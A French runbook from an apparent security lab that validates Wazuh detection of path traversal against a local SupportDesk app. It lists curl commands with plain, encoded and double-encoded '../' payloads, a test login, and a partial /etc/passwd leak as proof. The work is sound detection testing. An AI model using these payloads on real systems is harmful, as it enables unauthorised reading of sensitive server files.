

# Runbook RB-02 - Path traversal on /kb/view

- **Scénario :** lecture de fichiers hors du dossier autorisé via le paramètre `doc`
- **Attack plan de référence :** `detection/attack-plans/AP-02-path-traversal.md`
- **Règles de détection :** 100140 (tentative), 100141 (traversal réussi)
- **Date d'exécution :** 23-10-2026
- **Opérateur :** Meghan CRESCI-HUMANN
- **Cible :** SupportDesk V1 - `http://localhost:3000/kb/view`
- **MITRE ATT&CK :** T1190 - Exploit Public-Facing Application

---

## 1. Pré-requis

- Wazuh et SupportDesk démarrés.
- L'endpoint `/kb/view` exige une session : on se connecte d'abord avec un compte de test
  (`jdupont@supportdesk.local` / `User_123`, rôle `user`).

## 2. Déroulé de l'attaque

```bash
# AVANT
docker exec sentinelx-wazuh.manager-1 grep -c '"id":"100140"' /var/ossec/logs/alerts/alerts.json
docker exec sentinelx-wazuh.manager-1 grep -c '"id":"100141"' /var/ossec/logs/alerts/alerts.json

# 1. Se connecter et garder le cookie de session
curl -s -c /tmp/cookies.txt -o /dev/null \
  -X POST http://localhost:3000/login \
  -d 'email=jdupont@supportdesk.local&password=User_123'

# 2. Vérifier la session (doit renvoyer 200, pas 302)
curl -s -b /tmp/cookies.txt -o /dev/null -w "HTTP %{http_code}\n" \
  "http://localhost:3000/kb/view?doc=vpn-guide.html"

# 3. Payloads de traversal (plusieurs profondeurs et encodages)
curl -s -b /tmp/cookies.txt -o /dev/null "http://localhost:3000/kb/view?doc=../../etc/hostname"        -H 'X-Forwarded-For: 203.0.113.77'
curl -s -b /tmp/cookies.txt           "http://localhost:3000/kb/view?doc=../../../etc/passwd"           -H 'X-Forwarded-For: 203.0.113.77'
curl -s -b /tmp/cookies.txt -o /dev/null "http://localhost:3000/kb/view?doc=%2e%2e/%2e%2e/etc/hostname"  -H 'X-Forwarded-For: 203.0.113.88'
curl -s -b /tmp/cookies.txt -o /dev/null "http://localhost:3000/kb/view?doc=%252e%252e/%252e%252e/etc/hostname" -H 'X-Forwarded-For: 203.0.113.99'

sleep 20
# APRÈS
docker exec sentinelx-wazuh.manager-1 grep -c '"id":"100140"' /var/ossec/logs/alerts/alerts.json
docker exec sentinelx-wazuh.manager-1 grep -c '"id":"100141"' /var/ossec/logs/alerts/alerts.json
```

## 3. Observations (exécution du 2026-10-23)

### Résultats par payload

| Payload                               | Profondeur | Détecté (100140) | Fichier lu (HTTP 200)                         |
| ------------------------------------- | ---------- | ---------------- | --------------------------------------------- |
| `../../etc/hostname`                  | 2 niveaux  | ✅               | ❌ « Document not found » (pas assez profond) |
| `../../../etc/passwd`                 | 3 niveaux  | ✅               | ✅ **fuite confirmée**                        |
| `%2e%2e/%2e%2e/...` (encodé une fois) | 2 niveaux  | ✅               | ❌                                            |
| `%252e%252e/...` (double encodé)      | 2 niveaux  | ✅               | ❌                                            |

- **100140** : chaque tentative est détectée, quelle que soit la forme (claire, encodée, double-encodée).
- **100141** (niveau 12) : déclenchée par `../../../etc/passwd`, qui a renvoyé un **HTTP 200** avec le contenu du fichier.

### Preuve de la fuite

`GET /kb/view?doc=../../../etc/passwd` renvoie le contenu réel de `/etc/passwd` du conteneur, affiché dans l'interface SupportDesk :

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...
node:x:1000:1000::/home/node:/bin/bash
```



La bonne profondeur est **trois** `../` : le dossier de la base de connaissances est à trois niveaux dans le conteneur, ce qui explique que `../../` (deux niveaux) renvoie « Document not found ».

## 4. Analyse

- **Détection robuste :** la règle 100140 attrape les formes en clair (`../`), encodée une fois (`%2e%2e`) et même double-encodée (`%252e%252e`). Le motif repère `%2e` qui subsiste dans la chaîne après le décodage unique du contrat.
- **Distinction tentative / réussite :** l'attaque qui a réellement lu un fichier a produit l'alerte 100141 (niveau 12), tandis que les tentatives infructueuses restent en 100140 (niveau 7). Cette gradation permet de prioriser : une 100141 est un incident confirmé.
- **Vulnérabilité réelle de l'application :** l'app construit le chemin de fichier sans normaliser ni restreindre `doc` au dossier KB. La fuite de `/etc/passwd` le prouve.

## 5. Limites et pistes

- **Profondeur variable :** un attaquant doit deviner le nombre de `../`. Un fuzzing (ffuf avec une wordlist de traversal) testerait toutes les profondeurs automatiquement - à ajouter si besoin.
- **Autres fichiers :** `/etc/passwd` est un proof-of-concept ; d'autres fichiers sensibles (code, config, base SQLite) seraient lisibles de la même façon.
- **Correctif applicatif recommandé (hors périmètre détection) :** normaliser le chemin et vérifier qu'il reste dans le dossier KB (`path.resolve` + contrôle du préfixe).

## 6. Statut

| Critère (AP-02)                            | Résultat         |
| ------------------------------------------ | ---------------- |
| Alerte sévérité ≥ 7 (100140) sur tentative | ✅               |
| Alerte 100141 sur lecture réussie          | ✅               |
| Détection < 1 min                          | ✅               |
| Preuve d'exploitation (fuite de fichier)   | ✅ `/etc/passwd` |
| Reproductible                              | ✅               |

**Conclusion : scénario validé.** La détection path traversal fonctionne contre des payloads réels, y compris encodés, et distingue la tentative de l'exploitation réussie.
